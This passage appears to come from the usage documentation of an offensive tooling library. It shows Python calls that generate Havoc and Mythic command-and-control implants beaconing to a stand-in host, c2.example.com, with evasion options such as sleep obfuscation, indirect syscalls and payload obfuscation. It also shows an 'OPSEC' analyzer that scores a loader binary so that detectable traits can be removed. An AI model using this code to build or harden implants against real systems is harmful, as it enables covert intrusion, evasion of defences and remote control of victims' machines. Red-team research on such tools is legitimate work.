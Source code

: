 ### Generate Havoc Demon

```python
from c2_adapters import generate_havoc_demon

result = generate_havoc_demon(
    listener_host="c2.example.com",
    listener_port=443,
    protocol="https",
    sleep_technique="Ekko",  # Advanced sleep obfuscation
    indirect_syscalls=True,
    stack_duplication=True,
    techniques=["NOCTIS-T124"],
    obfuscate=True
)
```

### Generate Mythic Agent

```python
from c2_adapters import generate_mythic_agent

result = generate_mythic_agent(
    listener_host="c2.example.com",
    listener_port=80,
    agent_type="apollo",
    c2_profile="http",
    api_token="your_mythic_api_token",
    techniques=["NOCTIS-T124"],
    obfuscate=True
)
```

---

## OPSEC Analysis

### Analyze Binary

```python
from server.opsec_analyzer import analyze_opsec

result = analyze_opsec(binary_path='loader.exe')

print(f"OPSEC Score: {result['score']}/10")
print("\nIssues found:")
for issue in result['issues']:
    print(f"- [{issue['severity']}] {issue['description']}")
    
print("\nRecommendations:")
for rec in result['recommendations']:
    print(f"- {rec}")
```
